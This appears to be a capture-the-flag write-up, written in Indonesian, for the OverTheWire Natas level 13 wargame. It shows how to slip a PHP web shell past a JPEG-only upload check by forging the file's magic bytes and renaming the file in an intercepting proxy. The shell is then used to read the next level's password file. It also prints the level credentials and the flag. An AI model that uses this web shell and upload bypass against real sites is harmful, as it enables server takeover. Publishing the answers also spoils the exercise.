






# soal
Username: natas13 \
URL:      http://natas13.natas.labs.overthewire.org

# solve
- login with cred natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
- di soal kali ini kita harus memaasukan file jenis jpg jika tidak itu akan ditolak jadi saya mencoba dengan jpg dibawah 1k byte, 
  dan php terlebih dahulu
  
  
- saya mencoba melakukan bypass dengan mengubah hexeditor
  ```bash
  cp simple.php simple-bypass.php
  file simple-bypass.php 
  # simple-bypass.php: PHP script, ASCII text
  file 680b.jpg 
  # 680b.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, baseline, precision 8, 10x10, components 3

  xxd 680b.jpg 
  00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 012c  ......JFIF.....,

  ## kita akan mengambil header byte dari jpeg ini ke php
  ## kita perlu menambahkan beberapa teks untuk mempermudah mengubahnya

  cat simple-bypass.php 
  ##########
  <?php echo system($_GET['c']); ?>

  hexeditor simple-bypass.php
  ```
- dan kita edit hex nya samakan dengan hex header jpeg
  
- menjadi seperti ini
  
- dan simpan dengan ctrl x
- jika sudah kita bisa coba untuk cek lagi apakah filenya sudah benar
  ```
  file simple-bypass.php 
  simple-bypass.php: JPEG image data, JFIF standard 60.63, density 26736x8293, segment length 16, thumbnail 99x104
  ```

## uplooad the file
- lalu saya mencooba mengupload filenya dan menintercept di brute dan mengubah lagi namanya
  
  
  
  - ```?c=cat /etc/natas_webpass/natas14```

# flag
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ